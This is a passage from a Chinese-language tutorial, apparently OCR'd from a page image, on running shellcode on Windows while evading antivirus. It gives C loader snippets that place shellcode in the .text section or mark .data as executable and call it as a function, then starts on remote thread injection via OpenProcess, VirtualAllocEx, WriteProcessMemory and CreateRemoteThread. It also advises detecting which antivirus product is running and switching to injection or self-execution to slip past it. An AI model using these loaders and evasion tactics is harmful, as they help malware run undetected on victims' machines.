 我们希望我们的shellcode被分配在可执行文件的.text部分中，这样就不需要分配RWX内存块来存储shellcode。此外，  
我们需要将shellcode数组强制转换为函数指针并调用它-

```php
#pragma section(".text")

__declspec(allocate(".text")) char goodcode[] = {  };

int main()
{
    //(*(void(*)())(&goodcode))();
    ((void(*)())(&goodcode))();
}
```

利用

设置data段可写 执行shellcode

```php
#include <Windows.h>

#pragma comment(linker, "/section:.data,RWE")//设置data段可写,就这么短短一行代码
unsigned char shellcode[] = {  };
//全局变量会保存在.data中，

int main()

{
    ((void(*)())(void*)shellcode)();//执行shellcode
}
```

#### 5.远程线程注入

**\*火绒对于线程注入的操作并不敏感,但是某数字杀软晶核的环境下除了高信誉的白名单以外不要尝试进程或者线程注入**

**我们也可以通过CreateToolhelp32Snapshot去获取系统中正在运行的进程信息，线程信息然后进行判断,如果是火绒的环境就进行注入,如果是某数字杀软的环境就指针执行或者是注入自身(某数字杀软任何注入自身没有威胁)**

我们先学习一下前置知识:

使用远程线程注入，我们需要使用4个主要函数：OpenProcess, VirtualAllocEx, WriteProcessMemory，CreateRemoteThread

**思路:**

1.  打开远程进程的句柄（pid）(OpenProcess)
2.  使用VirtualAllocEx在远程进程中分配具有读、写和执行必要权限的内存空间
3.  然后使用WriteProcessMemory将shellcode写入到内存缓冲区中
4.  最后通过调用CreateRemoteThread来创建远程线程

主要是了解一下每一个windowsAPI的功能和传入的参数

1、OpenProcess

```php
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```
